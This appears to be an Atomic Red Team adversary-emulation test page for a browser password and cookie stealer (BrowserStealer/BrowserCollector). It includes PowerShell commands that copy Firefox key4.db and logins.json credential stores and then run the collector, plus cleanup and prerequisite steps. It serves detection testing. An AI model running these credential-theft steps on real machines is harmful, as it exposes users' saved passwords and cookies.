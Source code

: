 


<br/>
<br/>

## Atomic Test #16 - BrowserStealer (Chrome / Firefox / Microsoft Edge)
[Github Repo](https://github.com/SaulBerrenson/BrowserStealer) Simple password/cookies stealer for chrome, edge, and gecko based browsers (30 listed working). This attack simulates stealing the data from the browser files and printing them to the command line.
If using to test with Firefox, if the browser is x64 you need to use the x64 build

**Supported Platforms:** Windows


**auto_generated_guid:** 6f2c5c87-a4d5-4898-9bd1-47a55ecaf1dd






#### Attack Commands: Run with `powershell`! 


```powershell
$profile = (Gci -filter "*default-release*" -path $env:Appdata\Mozilla\Firefox\Profiles\).FullName
Copy-Item $profile\key4.db -Destination "PathToAtomicsFolder\..\ExternalPayloads" > $null
Copy-Item $profile\logins.json -Destination "PathToAtomicsFolder\..\ExternalPayloads" > $null
Remove-Item $profile\key4.db > $null
Remove-Item $profile\logins.json > $null
Copy-Item "$env:PathToAtomicsFolder\T1555.003\src\key4.db" -Destination $profile\ > $null
Copy-Item "$env:PathToAtomicsFolder\T1555.003\src\logins.json" -Destination $profile\ > $null
cd "$env:PathToAtomicsFolder\T1555.003\bin"
""|.\BrowserCollector.exe
```

#### Cleanup Commands:
```powershell
$profile = (Gci -filter "*default-release*" -path $env:Appdata\Mozilla\Firefox\Profiles\).FullName
Remove-Item $profile\key4.db > $null
Remove-Item $profile\logins.json > $null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads" -Destination $profile\ > $null
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\key4.db" > $null
Remove-Item "PathToAtomicsFolder\..\ExternalPayloads\logins.json" > $null
```



#### Dependencies:  Run with `powershell`!
##### Description: Firefox must be on the device.
##### Check Prereq Commands:
```powershell
if ((Test-Path "C:\Program Files\Mozilla Firefox\firefox.exe") -Or (Test-Path "C:\Program Files (x86)\Mozilla Firefox\firefox.exe")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
$installer = "PathToAtomicsFolder\..\ExternalPayloads\FirefoxStubInstaller.exe"
Invoke-WebRequest -OutFile $installer "https://download.mozilla.org/?product=firefox-stub&os=win&lang=en-US"
Start-Process -FilePath $installer -Wait
Stop-Process -Name "firefox"
```
##### Description: BrowserCollector must exist in the bin directory
##### Check Prereq Commands: